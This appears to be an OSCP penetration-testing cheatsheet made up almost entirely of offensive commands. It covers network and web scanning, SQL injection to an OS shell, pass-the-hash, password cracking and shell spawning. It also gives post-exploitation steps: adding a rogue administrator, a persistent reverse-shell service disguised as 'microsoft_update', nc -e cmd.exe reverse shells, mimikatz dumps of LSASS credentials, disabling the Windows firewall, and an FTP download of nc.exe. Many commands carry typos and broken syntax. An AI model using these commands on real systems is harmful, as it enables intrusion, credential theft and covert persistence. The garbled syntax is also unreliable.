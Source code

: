 OSCP(SPECIFICALLY OSCP) Process cheatsheets


Here are the commands that people who did the OSCP found helpful and its suggested to look at the resource links

Early stage:

Scanning:
Quick scan:
```
nmap <IP> --top-ports 10 --open
```

Intense Scan:
```
nmap -p 1-65535 -T4 -A -v <IP>
```

Web:
```
Nikto - h <IP>
dirb http://<IP> /user/share/wordlists
finmap -u <IP>./dotdotpwn.pl -m <MODULE> -h <HOST> [OPTIONS]
wpscan -url http://<IP>/ -enumerate p
```

SMB/RPC:
```
enum4linux -a <IP>
nmap -0-script=smb* -p <PORTS> <IP>
rpcclient <IP> -U "" -N
showmount -e <IP>/<PORT>
mount- t cifs //<IP><SHARE> <LOCAL DIRECTORY> -o username="guest", password""
net view \\<IP>
nbtscan -r<IP>
smbclient - L \\ <IP> -U "" -N
rlogin <IP> 
nmlookup -A target
```

SQL:
SQL injection cheatsheet(http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
```
nmap -sV -Pn -vv -script=mysql* <IP> -p <PORT>
sqlmap -u <IP> -crawl=1
sqlmap -u http://<IP>/page.php?commen=761 - DBMS=mysql -os-shell
```


SMTP:
nmap -script=smtp* -p <PORT> <IP>

SNMP:
```
snmpwalk -c public -v1 <IP>
snmpenum -t <IP>
Onesixtyones -c <COMMUNITY FILE> -I <IP>
```

FTP:
```
nmap -script=ftp* -p <PORT> <IP>
```

DNS:
```
./dnsrecon.py -d <DOMAIN>
./dnsrecon.py -d <DOMAIN> -t axfr
./dnsrecon.py -d <DOMAIN> -D <NAME LIST> -t brt
./dnsrecon.py -d <HOST> -t zonewalk
nmap -script=dns-zone-transfer -p 53 ns2.megacorpone.com
nmap <IP> -p- -sV --reason --dns-server 1.2.3.4
```

Pass the hash:
```
pth-winexe -U <HAASH> //<IP> cmd
```


---
In action:

Password cracking:
Discover type of hash that you have 
```
hash-identifier 
```

hydra:
```
Hydra -L <USER FILE> -P <PASS FILE> -M http -m DIR:/admin -T 30
```

Medusa:
```
Medusa -h <IP> -U <USER PROFILE> -P <PASS FILE> -M http -m DIR:/admin -T 30
```

Hashcat:
```
hashcat -m 400 -a 0 <HASHFILE> <WORDLIST>
```


TTY shells:
Below are some helpful tricks to spawn a TTY shell in the event you need to further interact with the system. These are also helpful in breaking out of “jail shells”.

```
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
When in vi:!bash (or) :set shell=/bin/bash:shell
When in nmap: !sh
```

Netcat:
```
net view
net user
net local group Users net localgroup administrators
net user hacker password1 /add
net localgroup administrators hacker /add
search dir/s *.doc
system("start cmd.exe /$cmd")
sc create microsoft_update binpath="cmd/L start c:/nc.exe -d <IP> <PORT> -e cmd.exe" start= auto error=ignore
C:\nc.exe -e c:\windows\system\cmd.exe -vv <IP> <PORT>
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
(32-bit)
(64-bit)
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
netsh firewall set opmode disable
%YSYSTEMDRIVE%\boot.ini
%WINDRIVE%\win.ini
type %WINDRIVE%\System32\drivers\etc\hosts
```


Useful Nix commands:
```
SUID root files: find / -user root -perm -4000 -print
SGID root files: find / -group root -perm -2000 -print 
SUID & SGID root files ownership: find / -perm -4000 -print -o -perm -2000 -print
Files not owned by anyone: find / -nouser -print
Files not owned by any group find / -nogroup -print
Symlinks and their pointers find / -type l -ls
```



Download an EXE from FTP server
```
echo open IP> C:\script.txt
echo user mftpuser>> C:\script.txt
echo pass myftppass>> C:\script.txt
echo get nc.exe>> C:\script.txt
echo bye>> C:\script.txt
ftp -s:script.txt
```
